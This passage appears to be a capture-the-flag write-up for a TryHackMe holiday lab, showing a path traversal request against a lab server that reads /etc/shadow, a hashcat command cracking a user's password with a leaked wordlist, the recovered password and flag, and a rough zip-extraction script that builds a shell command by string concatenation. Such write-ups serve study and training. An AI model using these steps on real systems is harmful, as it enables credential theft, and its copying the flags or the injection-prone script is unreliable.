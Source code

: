 The script that fetches notes:

```js
function getNote(note, id) {
const url = '/get-file/' + note.replace(/\//g, '%2f')
$.getJSON(url,  function(data) {
    document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
})
}
// getNote('server.js', '#note-1')
getNote('views/notes/note1.txt', '#note-1')
getNote('views/notes/note2.txt', '#note-2')
getNote('views/notes/note3.txt', '#note-3')
```

To get the note, we just have to send request to the following url:

http://10.10.158.250/get-file/views%2fnotes%2fnote1.txt

- What is Charlie going to book a holiday to?

Read the note #3

> Hawaii

- Read /etc/shadow and crack Charlies password.

Fetch shadow file: http://10.10.158.250/get-file/%2fetc%2fshadow

Save charlie's hash to hash.txt and crack it:

```bash
$ hashcat --force -m 1800 -a 0 hash.txt ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

> password1

- What is flag1.txt?

> THM{4ea2adf842713ad3ce0c1f05ef12256d}

---

## *[Day 16] File Confusion*

The script to exctract everyting recursively (Not an efficient one, just a 3-minute
scetch):

```python
from genericpath import isdir
import os;
import zipfile;

def visitDirectory(path):
	files = os.listdir(path=path);
	for file in files:
		if file.endswith('.zip'):
			try:
				with zipfile.ZipFile(file) as z:
					z.extractall()
					print("Extracted all")
			except:
				print("Invalid file")
			os.remove(file)
		elif os.path.isdir(file):
			visitDirectory(file)

def writeMetadata(path):
	os.system('exiftool ' + path + ' >> exif-result.txt')

```
